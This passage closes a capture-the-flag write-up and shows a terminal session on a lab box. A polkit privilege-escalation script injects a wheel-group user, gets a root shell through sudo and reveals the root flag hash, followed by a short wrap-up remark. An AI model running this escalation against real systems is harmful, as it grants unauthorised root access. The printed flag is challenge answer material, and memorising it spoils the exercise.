     :::text
    [dwight@paper ~]$ sh poc.sh -t=0.002 && su secnigma

    [!] Username set as : secnigma
    [!] Timing set to : 0.002
    [!] Force flag not set.
    [!] Vulnerability checking is ENABLED!
    [!] Starting Vulnerability Checks...
    [!] Checking distribution...
    [!] Detected Linux distribution as "centos"
    [!] Checking if Accountsservice and Gnome-Control-Center is installed
    [+] Accounts service and Gnome-Control-Center Installation Found!!
    [!] Checking if polkit version is vulnerable
    [+] Polkit version appears to be vulnerable!!
    [!] Starting exploit...
    [!] Inserting Username secnigma...
    Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
    [+] Inserted Username secnigma  with UID 1005!
    [!] Inserting password hash...
    [!] It looks like the password insertion was succesful!
    [!] Try to login as the injected user using sudo - secnigma
    [!] When prompted for password, enter your password
    [!] If the username is inserted, but the login fails; try running the exploit again.
    [!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
    Password:
    [secnigma@paper dwight]$ id
    uid=1005(secnigma) gid=1005(secnigma) groups=1005(secnigma),10(wheel)
    [secnigma@paper dwight]$ sudo bash
    [sudo] password for secnigma:
    [root@paper dwight]# cat^C
    [root@paper dwight]# cd
    [root@paper ~]# cd /root/
    [root@paper ~]# cat root.txt
    254b5756cdc3dfa2cc7ff4703e76758d


# Wrapping up

Overall a great realistic box with a lot of interaction and different
vulnerabilities for the user part.
